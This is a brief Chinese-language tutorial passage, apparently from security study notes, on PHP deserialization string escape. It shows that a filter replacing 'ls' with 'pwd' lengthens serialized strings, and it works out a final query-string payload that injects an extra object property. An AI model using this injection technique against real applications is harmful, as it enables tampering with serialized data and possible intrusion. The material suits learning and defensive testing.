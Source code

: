 因为ls会被replace成pwd 所以
s:49:"O:1:"A":2:{s:2:"v1";s:**2**:"**pwd**";s:2:"v2";s:3:"123";}"; 就变成了这样 不匹配 多吐出了一个字符
思路:把吐出来的字符构造成功能性代码
例 : 新增v3 : 666
";s:2:"v3";s:3:"666";}  (22)
ls -> pwd 是多一位字符 所以我们需要构造22个ls来确保刚好卡在"前 并且后面的数据全都包括进去
O:1:"A":2:{s:2:"v1";s:66:"lslslslslslslslslslslslslslslslslslslslslsls";s:2:"v3";s:3:"666";}";s:2:"v2";s:3:"123";}

s:66:"**lslslslslslslslslslslslslslslslslslslslslsls";s:2:"v3";s:3:"666";}**" 
lslslslslslslslslslslslslslslslslslslslslsls  (44)
";s:2:"v3";s:3:"666";}							(22)
这样子因为;}已经闭合了 所以后面的就不会执行了
最终PAYLOAD:

```php
?v1=lslslslslslslslslslslslslslslslslslslslslsls";s:2:"v3";s:3:"666";}
```

